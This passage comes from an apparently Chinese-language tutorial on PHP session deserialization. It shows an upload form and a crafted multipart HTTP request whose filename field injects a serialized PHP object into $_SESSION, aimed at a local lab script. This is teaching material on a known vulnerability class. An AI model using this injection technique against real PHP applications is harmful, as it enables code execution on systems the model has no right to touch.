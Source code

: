 ```php+HTML
  ),
 )
);
```
值得一提的是这种情况下，$\_SESSION超全局数组里面会存储$\_FILES超全局数组里面的一些信息，最为关键的是file name和file temp name，我们就借助file name来把序列化串写入到$\_SESSION中，构造html请求表单
```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>php session unserialize example</title>
</head>
<body>
<form action="http://localhost/vuln/session_unserialize.php" method="POST" enctype="multipart/form-data">
    <input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" value="123" />
    <input type="file" name="file" />
    <input type="submit" />
</form>
</body>
</html>
```
随意提交文件上传，burp拦截改包如下，
```http
POST /vuln/session_unserialize.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------1314365402189625052536245878
Content-Length: 424
Referer: http://localhost/vuln/session_unserialize.html
Cookie: PHPSESSID=9nhpcsuogisgjnmfm5e3gqri43; XDEBUG_SESSION=PHPSTORM
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0

-----------------------------1314365402189625052536245878
Content-Disposition: form-data; name="PHP_SESSION_UPLOAD_PROGRESS"

123
-----------------------------1314365402189625052536245878
Content-Disposition: form-data; name="file"; filename="|O:5:\"OowoO\":1:{s:4:\"mdzz\";s:27:\"print_r(dirname(__FILE__));\";}"
Content-Type: application/octet-stream


-----------------------------1314365402189625052536245878--

```
因为HTTP包Cookie中带有XDEBUG_SESSION=PHPSTORM，故burp发包也会触发PHPSTORM调试机制，该包我们调试一下，
![/data/typora_assets/php session反序列化踩坑/image-20200708220406122.png](https://i.loli.net/2020/07/10/YEn89uHV1lLcOfx.png)
